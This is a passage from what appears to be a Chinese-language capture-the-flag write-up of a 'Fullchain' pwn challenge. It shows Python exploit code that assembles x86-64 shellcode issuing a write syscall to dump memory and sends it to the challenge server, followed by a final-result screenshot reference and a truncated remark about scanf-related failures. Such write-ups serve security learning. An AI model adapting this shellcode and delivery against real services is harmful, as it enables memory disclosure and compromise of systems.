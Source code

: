 ```python
WriteShellCode = """
  push QWORD PTR [rip+0x2a]
  pop rsi
  push 1
  pop rax
  push 1
  pop rdi
  push 0x40
  pop rdx
  syscall
  ret
"""

send_cmd2srv("global", "read", asm(WriteShellCode)+b"\n")
send_cmd2srv("local", "ggg")
```

### 最終結果

![Fullchain Final Pwn](resources/Fullchain-Final-Pwn.png)

當然，因為 `scanf` 的緣故，也有可能發生以下的狀況而失敗：
